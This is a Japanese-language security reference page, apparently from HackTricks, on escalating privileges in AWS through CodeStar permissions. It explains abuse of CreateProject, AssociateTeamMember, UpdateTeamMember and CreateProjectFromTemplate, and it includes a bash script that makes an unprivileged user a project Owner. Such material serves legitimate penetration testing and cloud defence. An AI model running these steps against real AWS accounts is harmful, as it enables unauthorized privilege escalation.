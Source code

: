 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

Codestarに関する詳細情報は以下で確認できます：

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

これらの権限を使用すると、**cloudformationテンプレート**を介して**任意のアクション**を実行するために**codestar IAMロールを悪用**できます。次のページを確認してください：

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

この手法は、`codestar:CreateProject`を使用してcodestarプロジェクトを作成し、`codestar:AssociateTeamMember`を使用してIAMユーザーを新しいCodeStar **プロジェクト**の**所有者**にすることで、**いくつかの追加権限を持つ新しいポリシーを付与**します。
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
もしあなたがすでに**プロジェクトのメンバー**であれば、権限**`codestar:UpdateTeamMember`**を使用して**役割をオーナー**に更新することができます。`codestar:AssociateTeamMember`の代わりに。

**潜在的な影響:** codestarポリシーへのプライベートエスカレーション。以下にそのポリシーの例を見つけることができます：

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **新しいプロジェクトを作成:**
- **`codestar:CreateProjectFromTemplate`**アクションを利用して新しいプロジェクトの作成を開始します。
- 成功裏に作成されると、**`cloudformation:UpdateStack`**へのアクセスが自動的に付与されます。
- このアクセスは、`CodeStarWorker-<generic project name>-CloudFormation` IAMロールに関連付けられたスタックを特に対象としています。
2. **ターゲットスタックを更新:**
- 付与されたCloudFormation権限を使用して、指定されたスタックを更新します。
- スタックの名前は通常、次の2つのパターンのいずれかに従います：
- `awscodestar-<generic project name>-infrastructure`
- `awscodestar-<generic project name>-lambda`
- 正確な名前は選択したテンプレートに依存します（例のエクスプロイトスクリプトを参照）。
3. **アクセスと権限:**
- 更新後、スタックにリンクされた**CloudFormation IAMロール**に割り当てられた機能を取得します。
- 注意: これは本質的に完全な管理者権限を提供するものではありません。権限をさらに昇格させるためには、環境内の追加の誤設定されたリソースが必要になる場合があります。

詳細については、元の研究を確認してください: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)。\
エクスプロイトは[https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)で見つけることができます。

**潜在的な影響:** cloudformation IAMロールへのプライベートエスカレーション。

{{#include ../../../../banners/hacktricks-training.md}}
